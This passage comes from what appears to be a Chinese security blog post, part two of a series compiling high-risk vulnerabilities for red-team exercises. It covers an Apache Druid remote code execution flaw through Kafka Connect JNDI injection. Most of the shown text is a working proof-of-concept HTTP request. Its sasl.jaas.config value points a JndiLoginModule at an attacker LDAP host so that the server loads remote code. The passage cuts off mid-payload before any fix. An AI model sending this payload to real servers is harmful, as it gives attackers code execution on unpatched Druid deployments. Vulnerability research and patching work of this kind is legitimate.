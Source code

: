#  HW在即，你需要的40个高危漏洞利用与修复整合（二）

原创 YNsec [ YNsec安全实验室 ](javascript:void\(0\);)

**YNsec安全实验室** ![]()

微信号 SDWsec

功能介绍 我们是信安学习路上的同志，为网络强国而默默努力的大学生，这条路上，我们从不孤单

____

___发表于_

收录于合集 #HW 2个

由于公众号文章篇幅限制，文章分批编辑，一篇文章发送10个漏洞。  
随着时间推移，HW的时间也一步步推进，在此，我整合了40个高危漏洞，给出利用方法与解决方案供师傅们参考，创作不易，请师傅们多多点赞转发，感谢。  
公众号查阅不便的话，请转发文章至朋友圈或安全交流群，截图找我领取原文档，联系方式可以在后台回复“联系方式”获取。

#  **11、Apache Druid 远程代码执行漏洞**

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞(CVE-2023-25194)，Apache Druid 由于支持从 Kafka
加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。  
 **漏洞标签：** 服务器权限相关、数据库权限相关、涉及重点系统  
 **漏洞编号：** QVD-2023-9629  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. Apache Druid <= 25.0.0

 **利用方法：**  
poc

    
    
    POST /druid/indexer/v1/sampler?for=connect HTTP/1.1  
    Host: your-ip  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0  
    Accept-Encoding: gzip, deflate  
    Content-Type: application/json  
    Content-Length: 1437  
    Connection: close  
      
    {  
    "type":"kafka",  
    "spec":{  
    "type":"kafka",  
    "ioConfig":{  
    "type":"kafka",  
    "consumerProperties":{  
    "bootstrap.servers":"1.1.1.1:9092",  
    "sasl.mechanism":"SCRAM-SHA-256",  
    "security.protocol":"SASL_SSL",  
    "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://x.x.x.x\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"  
    },  
    "topic":"any",  
    "useEarliestOffset":true,  
    "inputFormat":{  
    "type":"regex",  
    "pattern":"([\\s\\S]*)",  
    "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",  
    "columns":[  
    "raw"  
    ]  
    }  